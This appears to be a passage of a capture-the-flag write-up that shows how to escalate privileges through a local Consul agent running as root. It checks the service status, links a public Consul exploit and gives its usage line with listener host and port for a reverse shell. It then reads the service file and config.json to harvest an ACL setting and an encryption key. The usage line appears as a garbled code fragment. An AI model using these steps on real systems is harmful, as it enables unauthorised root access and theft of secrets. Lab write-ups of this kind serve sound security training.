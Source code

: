 ```bash
 systemctl status consul
 
 result:
● consul.service - Consul Service Discovery Agent
     Loaded: loaded (/etc/systemd/system/consul.service; enabled; vendor preset: enabled)
     Active: active (running) since Thu 2025-05-22 14:03:49 UTC; 1 day 2h ago
   Main PID: 1772 (consul)
      Tasks: 9 (limit: 4520)
     Memory: 38.5M
        CPU: 8min 30.494s
     CGroup: /system.slice/consul.service
             └─1772 /usr/local/bin/consul agent -server -ui -advertise=127.0.0.1 -bind=127.0.0.1 -data-dir=/var/lib/consul -node=consul-01 -config-dir=/e>

Warning: some journal files were not opened due to insufficient permissions.
```

Now let’s see if there are any exploit for this version of consul:

[https://www.exploit-db.com/exploits/51117](https://www.exploit-db.com/exploits/51117)

Let’s download the exploit and run it:

```bash
python3 {sys.argv[0]} <rhost> <rport> <lhost> <lport> <acl_token>\n")
```

We just need the acl_token to run it. We can get it by first looking at the consul service file:

```bash
cat /etc/systemd/system/consul.service

result:
[Service]
User=root
Group=root
ExecStart=/usr/local/bin/consul agent -server -ui -advertise=127.0.0.1 -bind=127.0.0.1 -data-dir=/var/lib/consul -node=consul-01 -config-dir=/etc/consul.d
Restart=on-failure
ExecReload=/bin/kill --signal HUP $MAINPID
KillMode=process
KillSignal=SIGTERM
SyslogIdentifier=consul
[Install]
WantedBy=multi-user.target

```

Now we see the configuration dir, and we see a json file

```bash
cd /etc/consul.d
cat config.json

result:
"bind_addr": "127.0.0.1",
"node_name":"heal-internal",
"data_dir":"/var/lib/consul",
"acl_datacenter":"heal-server",
"acl_default_policy":"allow",
"encrypt":"l5/ztsxHF+OWZmTkjlLo92IrBBCRTTNDpdUpg2mJnmQ="

```
